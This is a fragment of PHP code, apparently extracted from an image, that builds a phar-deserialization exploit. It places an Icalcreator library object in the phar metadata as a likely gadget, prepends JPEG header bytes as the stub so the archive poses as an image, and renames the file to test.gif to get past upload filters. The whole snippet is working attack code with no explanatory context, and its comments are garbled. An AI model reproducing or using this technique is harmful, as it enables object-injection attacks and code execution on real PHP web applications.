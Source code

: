 ```php
	$obj  = new Kigkonsult\Icalcreator\Vtimezone( $obj_ );


	@unlink( "test.gif" );
	$phar = new Phar( "test.phar" );
	$phar->startBuffering();
	$phar->setStub( base64_decode( "/9j/4AAQSkZJRgABAgEASABIAAD//gARSlBFRyBJbWFnZXIgMi4x/9sAhAAGBAUGBQQGBgUGBwcGCAoQCgoJCQoUDg8MEBcUGBgXFBYWGh0lHxobIxwWFiAsICMmJykqKRkfLTAtKDAlKCkoAQMEBAUE" ) . " __HALT_COMPILER(); ?>" );
	$phar->setMetadata( $obj );
	$phar->addFromString( "test.txt", "test" ); //????????
	//??????
	$phar->stopBuffering();
	rename( "test.phar", "test.gif" );
}

```

